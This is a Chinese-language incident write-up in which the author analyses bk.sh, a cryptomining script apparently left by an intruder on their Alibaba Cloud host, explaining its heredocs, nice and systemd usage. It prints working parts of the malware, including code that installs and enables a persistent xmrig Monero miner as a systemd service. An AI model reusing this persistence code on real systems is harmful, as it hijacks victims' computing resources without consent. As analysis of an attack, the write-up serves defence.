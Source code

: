 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(bk.sh)

## bk.sh，推测是靶机脚本(注入service部分)

### `cat >/tmp/c3pool_miner.service <<EOL` 注入设置脚本后台启动等

#### EOL注入脚本文件

参考信息源：

* [知乎专栏-heredoc入门](https://zhuanlan.zhihu.com/p/93993398)
* [linux265-pidof命令](https://linux265.com/course/linux-command-pidof.html)
* [linux265-nice命令](https://linux265.com/course/linux-command-nice.html)

`<<EOL EOL`创建与书写任意格式文本及代码。`pidof xxx`为查看xxx程序的进程号。nice命令调度进程的优先级，根据教程资料来看，黑客的代码语法还有些问题。不过，基本大意是非xmrig进程就直接低优先级。

```
cat >$HOME/c3pool/miner.sh <<EOL
#!/bin/bash
if ! pidof xmrig >/dev/null; then
  nice $HOME/c3pool/xmrig \$*
else
  echo ""
fi
EOL
```

#### service内容解读

参考信息源：

* [博客园-Linux 下的两个特殊的文件 -- /dev/null 和 /dev/zero 简介及对比](https://www.cnblogs.com/lishihai/p/7986565.html)
* [csdn-&>/dev/null表示的意思](https://blog.csdn.net/heybeaman/article/details/89500337)
* [Linux *.service文件详解](https://blog.csdn.net/weixin_44352521/article/details/126679172)
* [journalctl基本介绍](https://blog.csdn.net/weixin_45537987/article/details/106762104)

`xxx 2>dev/null`屏蔽错误输出。`>/dev/null 2>&1`什么回显都不用。


```
# 判断有没有 systemctl 这命令 
  if ! type systemctl >/dev/null; then
    echo ""
	echo ""
    /bin/bash $HOME/c3pool/miner.sh --config=$HOME/c3pool/config_background.json >/dev/null 2>&1
    echo "ERROR: This script requires \"systemctl\" systemd utility to work correctly."
    echo "Please move to a more modern Linux distribution or setup miner activation after reboot yourself if possible."

  else
# 生成挖矿服务配置
    echo "[*] Creating c3pool_miner systemd service"
# 以下为注入配置
    cat >/tmp/c3pool_miner.service <<EOL
[Unit]  # 这个字段给出服务描述、启动顺序和依赖关系
Description=Monero miner service # 描述信息，挖矿服务

[Service] # 这个字段主要给出启动、重启、停止的策略行为
# 定义启动进程时执行的命令
ExecStart=$HOME/c3pool/xmrig --config=$HOME/c3pool/config.json 
# 不管什么原因退出都会重启
Restart=always
# nice 10进程数值
Nice=10
CPUWeight=1

[Install] # 该字段定义如何安装，以及开机自启。
# Systemd有默认的启动 Target，就是 multi-user.target，即开机启动。
# 表示该服务所在的服务组,multi-user服务组。
WantedBy=multi-user.target
EOL

# 将tmp目录注入的服务配置移动到系统进程服务配置里去
    sudo mv /tmp/c3pool_miner.service /etc/systemd/system/c3pool_miner.service
    echo ""
	echo ""
# 
    sudo killall xmrig 2>/dev/null
    sudo systemctl daemon-reload
# 启用挖矿服务，并开始挖矿    
    sudo systemctl enable c3pool_miner.service
    sudo systemctl start c3pool_miner.service
# 要查看矿工服务日志，请运行 "sudo journalctl -u c3pool_miner -f"命令 
    echo "To see miner service logs run \"sudo journalctl -u c3pool_miner -f\" command"
	echo ""
  fi
```

## “echo”及“#”打印及注释信息收集

### echo

"echo"部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

### “#”（全部为机翻）

打印问候语；命令行参数；检查先决条件

```
# printing greetings
# command line arguments
# checking prerequisites
```

计算端口；印刷的意图；开始做事：准备矿工

```
# calculating port
# printing intentions
# start doing stuff: preparing miner
```

准备脚本

```
# preparing script
```

准备脚本后台工作和重启时的工作

```
# preparing script background work and work under reboot
```